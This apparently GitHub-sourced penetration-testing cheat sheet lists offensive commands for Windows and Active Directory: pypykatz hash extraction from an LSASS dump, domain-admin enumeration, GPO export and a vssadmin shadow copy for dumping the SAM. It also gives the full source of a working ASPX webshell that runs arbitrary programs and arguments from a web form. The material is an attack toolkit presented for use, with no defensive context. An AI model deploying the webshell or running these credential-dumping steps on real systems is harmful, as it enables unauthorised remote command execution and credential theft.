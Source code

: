 ```
export PATH=/var/lib/gems/3.1.0:$PATH
```
### Extract hashes from lsa.DMP:
```
pypykatz lsa minidump lsass.DMP
```
### Group Policy (GPO) extraction:
```
gpresults /h out.html
```
### Aspx webshell:
```
<%@ Page Language="VB" Debug="true" %>
<%@ import Namespace="system.IO" %>
<%@ import Namespace="System.Diagnostics" %>

<script runat="server">      

Sub RunCmd(Src As Object, E As EventArgs)            
  Dim myProcess As New Process()            
  Dim myProcessStartInfo As New ProcessStartInfo(xpath.text)            
  myProcessStartInfo.UseShellExecute = false            
  myProcessStartInfo.RedirectStandardOutput = true            
  myProcess.StartInfo = myProcessStartInfo            
  myProcessStartInfo.Arguments=xcmd.text            
  myProcess.Start()            

  Dim myStreamReader As StreamReader = myProcess.StandardOutput            
  Dim myString As String = myStreamReader.Readtoend()            
  myProcess.Close()            
  mystring=replace(mystring,"<","&lt;")            
  mystring=replace(mystring,">","&gt;")            
  result.text= vbcrlf & "<pre>" & mystring & "</pre>"    
End Sub

</script>

<html>
<body>    
<form runat="server">        
<p><asp:Label id="L_p" runat="server" width="80px">Program</asp:Label>        
<asp:TextBox id="xpath" runat="server" Width="300px">c:\windows\system32\cmd.exe</asp:TextBox>        
<p><asp:Label id="L_a" runat="server" width="80px">Arguments</asp:Label>        
<asp:TextBox id="xcmd" runat="server" Width="300px" Text="/c net user">/c net user</asp:TextBox>        
<p><asp:Button id="Button" onclick="runcmd" runat="server" Width="100px" Text="Run"></asp:Button>        
<p><asp:Label id="result" runat="server"></asp:Label>       
</form>
</body>
</html>
```
### Enumerate domain admins:
```
(Get-ADGroupMember -Identity "Domain Admins" -Recursive | Get-ADUser | Select-Object -ExpandProperty SamAccountName)
```
### Dump SAM using vssadmin:
```
vssadmin CREATE SHADOW /For=C:
```